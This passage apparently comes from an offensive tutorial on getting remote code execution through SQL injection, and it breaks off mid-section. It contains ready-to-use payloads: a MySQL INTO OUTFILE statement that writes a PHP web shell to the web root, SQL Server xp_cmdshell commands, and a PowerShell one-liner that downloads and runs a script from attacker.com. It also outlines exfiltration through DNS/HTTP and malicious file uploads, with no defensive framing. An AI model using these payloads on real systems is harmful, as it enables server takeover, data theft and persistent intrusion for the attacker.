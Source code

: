     ### Example in MySQL:
    
    ```sql
    SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';
    ```
    
    This creates a `shell.php` file that can execute commands via the `cmd` parameter.
    
3. **Execute System Commands**:
    - Directly run system-level commands if supported by the database.
    
    ### Example in SQL Server:
    
    ```sql
    EXEC xp_cmdshell 'whoami';
    ```
    
4. **Leverage External Channels**:
    - Use database functions that allow external requests (e.g., DNS, HTTP) to extract or execute data.
5. **Analyze Privileges**:
    - Check for privilege escalation opportunities to gain higher-level access.
6. **Upload Malicious Files**:
    - Exploit file-upload capabilities to deploy executables or scripts.

### Advanced Scenarios for Achieving RCE via SQL Injection

#### 1. **Exploiting System Functions in Databases**

##### Scenario:

Some databases include built-in functions that allow direct execution of system commands.

##### Example in **Microsoft SQL Server**:

```sql
EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://attacker.com/shell.ps1'')"';
```

- This command downloads and executes a malicious PowerShell script, granting full control over the system.

##### Notes:

- Requires elevated privileges (admin) to enable `xp_cmdshell` if it is disabled.

#### 2. **Writing Malicious Files to the Server**

##### Scenario:

Use file-writing functions such as `INTO OUTFILE` in MySQL or `COPY` in PostgreSQL to create malicious files on the server.

##### Example in **MySQL**:

- Writing a web shell to a web directory:
